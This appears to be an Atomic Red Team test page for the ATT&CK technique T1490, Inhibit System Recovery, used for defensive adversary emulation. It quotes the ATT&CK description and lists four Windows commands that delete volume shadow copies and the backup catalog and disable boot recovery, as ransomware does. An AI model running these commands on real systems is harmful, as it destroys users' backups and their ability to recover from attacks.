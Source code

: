 # T1490 - Inhibit System Recovery
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1490)
<blockquote>Adversaries may delete or remove built-in operating system data and turn off services designed to aid in the recovery of a corrupted system to prevent recovery.(Citation: Talos Olympic Destroyer 2018)(Citation: FireEye WannaCry 2017) Operating systems may contain features that can help fix corrupted systems, such as a backup catalog, volume shadow copies, and automatic repair features. Adversaries may disable or delete system recovery features to augment the effects of [Data Destruction](https://attack.mitre.org/techniques/T1485) and [Data Encrypted for Impact](https://attack.mitre.org/techniques/T1486).(Citation: Talos Olympic Destroyer 2018)(Citation: FireEye WannaCry 2017)

A number of native Windows utilities have been used by adversaries to disable or delete system recovery features:

* <code>vssadmin.exe</code> can be used to delete all volume shadow copies on a system - <code>vssadmin.exe delete shadows /all /quiet</code>
* [Windows Management Instrumentation](https://attack.mitre.org/techniques/T1047) can be used to delete volume shadow copies - <code>wmic shadowcopy delete</code>
* <code>wbadmin.exe</code> can be used to delete the Windows Backup Catalog - <code>wbadmin.exe delete catalog -quiet</code>
* <code>bcdedit.exe</code> can be used to disable automatic Windows recovery features by modifying boot configuration data - <code>bcdedit.exe /set {default} bootstatuspolicy ignoreallfailures & bcdedit /set {default} recoveryenabled no</code></blockquote>

## Atomic Tests

- [Atomic Test #1 - Windows - Delete Volume Shadow Copies](#atomic-test-1---windows---delete-volume-shadow-copies)

- [Atomic Test #2 - Windows - Delete Volume Shadow Copies via WMI](#atomic-test-2---windows---delete-volume-shadow-copies-via-wmi)

- [Atomic Test #3 - Windows - Delete Windows Backup Catalog](#atomic-test-3---windows---delete-windows-backup-catalog)

- [Atomic Test #4 - Windows - Disable Windows Recovery Console Repair](#atomic-test-4---windows---disable-windows-recovery-console-repair)


<br/>

## Atomic Test #1 - Windows - Delete Volume Shadow Copies
Deletes Windows Volume Shadow Copies. This technique is used by numerous ransomware families and APT malware such as Olympic Destroyer.

**Supported Platforms:** Windows



#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 
```
vssadmin.exe delete shadows /all /quiet
```






<br/>
<br/>

## Atomic Test #2 - Windows - Delete Volume Shadow Copies via WMI
Deletes Windows Volume Shadow Copies via WMI. This technique is used by numerous ransomware families and APT malware such as Olympic Destroyer.

**Supported Platforms:** Windows



#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 
```
wmic.exe shadowcopy delete
```






<br/>
<br/>

## Atomic Test #3 - Windows - Delete Windows Backup Catalog
Deletes Windows Backup Catalog. This technique is used by numerous ransomware families and APT malware such as Olympic Destroyer.

**Supported Platforms:** Windows



#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 
```
wbadmin.exe delete catalog -quiet
```






<br/>
<br/>

## Atomic Test #4 - Windows - Disable Windows Recovery Console Repair
Disables repair by the Windows Recovery Console on boot. 
This technique is used by numerous ransomware families and APT malware such as Olympic Destroyer.

**Supported Platforms:** Windows



#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 
```
bcdedit.exe /set {default} bootstatuspolicy ignoreallfailures
bcdedit.exe /set {default} recoveryenabled no
```






<br/>
